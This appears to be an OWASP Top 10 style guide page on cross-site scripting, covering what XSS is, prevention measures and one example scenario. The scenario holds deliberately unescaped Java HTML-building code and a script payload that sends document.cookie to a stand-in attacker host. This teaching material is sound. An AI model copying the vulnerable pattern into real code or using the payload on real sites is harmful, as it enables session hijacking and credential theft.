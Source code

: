 ## A7 - Cross-Site Scripting (XSS)

### Overview

XSS flaws occur whenever an application includes untrusted data in a new web page without
proper validation or escaping, or updates an existing web page with user-supplied data using a
browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the
victim’s browser which can hijack user sessions, deface web sites, or redirect the user to
malicious sites.

The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim.

### How to Prevent

Preventing XSS requires separation of untrusted data from
active browser content. This can be achieved by:

- Using frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework's XSS protection and appropriately handle the use cases which are not covered.

- Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The OWASP
Cheat Sheet 'XSS Prevention' has details on the required data escaping techniques.

- Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the OWASP Cheat Sheet 'DOM based XSS
Prevention'.

- Enabling a Content Security Policy (CSP) is a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).

### Examples

**Scenario 1:** The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

{% highlight js %}
(String) page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";
{% endhighlight %}

The attacker modifies the ‘CC’ parameter in the browser to:

{% highlight js %}
'><script>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'.
{% endhighlight %}
